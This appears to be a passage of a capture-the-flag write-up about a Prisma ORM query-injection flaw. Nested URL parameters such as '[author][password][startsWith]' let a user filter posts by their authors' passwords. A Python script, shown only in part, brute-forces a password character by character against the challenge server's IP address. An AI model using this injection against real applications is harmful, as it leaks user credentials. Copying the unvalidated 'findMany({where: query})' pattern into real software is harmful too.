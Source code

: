 The flag is in a `published:false` post assigned to a random user. So, to solve the challenge we have to extract the passwords of all the users and then log in and check if that user has the flag post or not.

### Solution

In our search for vulnerabilities of `Prisma ORM`, we stumbled upon [this article](https://www.elttam.com/blog/plorming-your-primsa-orm/#introduction).
It suggested that this part:
```js
let posts = await prisma.post.findMany({where: query});
```  
-- was vulnerable to injection attack. It had a similar example where an attack `Time-based Exploitation of Prisma` was explained, but we felt confused on how exactly to implement it, so we went on to make our own. 

While I was debugging the application locally, I found out that we could nest the query like `/api/posts/?[random][random][random]=a` and the resulting query would look like: 
```json
where:{
  { random: 
    { random:
      { random: 'a' } },
   published: true }
}

```
Seems intresting, now let's construct a payload that actually does mean something. After surfing through the Prisma docs and trying random stuff, I managed to make `api/posts/?[author][password][startsWith]=a` which would resolve the query to:

```json
where:{
  { author: 
    { password:
      { startsWith: 'a' } },
   published: true }
}
```
which basically filters the posts whose author's password starts from `a`. So we could just brute the password of a user char by char based on if the post of a particular authorId appears or not.
I automated the process using this python script:
```python
import requests

def leak_password():
    base_url = "http://35.239.207.1:3000/api/posts/"
    chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
    password = ""
    while len(password) < 26:
        found = False
        for c in chars:
            params = {
                "OR[0][author][password][startsWith]": password + c
            }
            
            response = requests.get(base_url, params=params)
            data = response.json()
            
            if data.get("success") and data.get("posts"):
                password += c
                print(f"Found character {len(password)}: {c}")
                print(f"Password so far: {password}")
                found = True
                break
        
```